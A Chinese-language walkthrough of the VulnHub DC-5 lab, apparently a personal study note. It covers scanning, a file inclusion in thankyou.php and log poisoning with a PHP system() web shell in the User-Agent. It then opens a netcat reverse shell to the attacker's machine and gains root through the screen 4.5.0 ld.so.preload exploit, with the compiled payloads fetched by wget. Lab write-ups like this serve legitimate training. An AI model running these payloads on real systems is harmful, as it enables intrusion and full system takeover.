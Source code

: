# DC5
- [参考](https://blog.csdn.net/weixin_43583637/article/details/102769923)

- [学习](https://www.vulnhub.com/entry/dc-5,314/)

- [下载](https://download.vulnhub.com/dc/DC-5.zip)

## 扫描

```
 nmap -sP 192.168.31.0/24
```
![](img/1.png)

192.168.31.233 为我们的靶机

```
nmap -sT -sV -T5 -A -p- 192.168.31.233  //继续使用nmap获取详细信息

```
![](img/2.png)

开放端口有80、111、40742

## 初探

使用浏览器打开靶机网址，页面如下

![](img/3.png)


打开Contact页面，发现是一个留言板块，在留言板块输入点内容然后提交康康
![](img/4.png)

页面跳转到Thankyou.php，并且在URL地址栏可以看到提交的参数，是用GET方式传参的

```
http://192.168.31.233/thankyou.php?firstname=123&lastname=123&country=australia&subject=123
```
![](img/5.png)

当刷新页面时发现 Copyright的值一直在变化，

猜测页面有可能存在文件包含

![](img/6.png)


## 中期

使用BurpSuite抓包

爆破后台页面，发现存在index.php，solutions.php，about-us.php，faq.php，contact.php，thankyou.php，footer.php七个页面

![](img/7.png)

挨个访问，发现footer.php是包含的点
![](img/9.png)


找到文件包含的点
![](img/8.png)


放入burp中跑一下试试看
![](img/10.png)

欸，好像有个有点用的，构造一下url访问一下
```
http://192.168.31.233/thankyou.php?file=/etc/passwd
```
盲生，你发现了华点！

![](img/11.png)

使用BurpSuite抓包爆破靶机日志文件的位置，爆破出一个

```
/var/log/nginx/error.log
```
通过常用的改数值完全无法写入

然而我这个不行他好像没有这个文件

![](img/12.png)

我服了
![](img/13.png)

接下来都是我看别人的笔记所复制下来的
往见谅 [参考1](https://blog.csdn.net/weixin_43583637/article/details/102769923)
[参考2](https://github.com/No-Github/1earn/blob/master/1earn/%E5%AE%89%E5%85%A8/%E5%AE%9E%E9%AA%8C/VulnHub/DC/DC5-WalkThrough.md)


访问 `http://192.168.31.233` 抓包,在 User-Agent: 中添加 
```
payload: <?php system($_GET['cmd']) ?>
```

kali 开启 nc 监听

```
nc -nlvp 4444
```
访问 `http://192.168.31.233/thankyou.php?file=/var/log/nginx/access.log&cmd=nc 192.168.31.243 4444 -e /bin/bash` 测试

## 提权

切换shell外壳
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

使用find命令，查找具有suid权限的命令，发现 `screen-4.5.0`

```
find / -perm /4000 2>dev/null
```

查找可用于screen 4.5.0的漏洞脚本文件

```
searchsploit screen 4.5.0
```

![](img/14.png)


```
cp /usr/share/exploitdb/exploits/linux/local/41154.sh  41154.sh
 
cp /usr/share/exploitdb/exploits/linux/local/41152.txt  41152.txt
```
![](img/15.png)

编译libhax.c文件

```
gcc -fPIC -shared -ldl -o libhax.so  libhax.c
```

![](img/16.png)

编译rootshell.c文件

```
gcc -o rootshell rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机

```
python -m SimpleHTTPServer 8080

```
```
cd /tmp
wget 192.168.31.243:8080/libhax.so;wget 192.168.31.243:8080/rootshell

```


运行 poc

```
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
whoami
```

结尾：

```
ls

cat thisistheflag.txt
```
![](img/17.png)


## 总结

该靶场大致要点为： 
- 查找包含点并使用 GET参数爆破。
- 对日志进行中毒攻击。
- 对 screen4.5.0 版本进行提权操作。

更新笔记：
- 内网渗透
- 爆破手法
- 提权骚操作
